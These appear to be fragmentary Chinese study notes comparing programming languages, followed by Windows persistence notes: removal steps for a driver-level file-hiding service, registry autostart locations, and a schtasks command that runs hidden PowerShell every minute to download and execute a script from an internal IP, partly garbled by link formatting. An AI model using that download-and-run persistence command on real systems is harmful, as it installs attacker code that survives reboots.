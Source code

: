 c#（c++++难度不高，只能windows/.net平台运行）

python（超级简单，功能超多！！！）

Golang（c的精确度，python的快速开发，几乎啥都能做）

------

java android

java+c（编写.so = windows的dll文件）=>android

------

纠结什么语言有前途。。。。

这个语言后台是否有大佬或者大公司投入？

c/c++ java kotlin oc/swift php python golang c++/c#/vb rust

------

android木马

如果想学习android开发：

不要在意自己学的是不是java，因为在android上编程，相当于一门长得很像java的java语言

------

## 驱动级的文件处理：

http://www.xoslab.com/efl.html

c:/windows/xlfks.xxx（dat，dll，ini，log）

c:/windows/system32/drivers/xlkfs.sys

如果碰到了就说明是驱动级的文件隐藏

如何清除：

1.查询服务状态 sc qc xlkfs

2.停止服务 net stop xlkfs

3.删除服务 sc delete xlkfs

4.找到xklfs的残余都删掉

------

注册表自启动

winlogon/userinit

logon script

------

计划任务：

schtasks /create /sc minute /mo 1 /tn “haha” /tr “powershell.exe -nop -w hidden -c "IEX((new-object net.webclient).downloading("""[http://192.168.87.150/msi.txt\"\"\"))\""](http://192.168.87.150/msi.txt/"/"/"))/"")
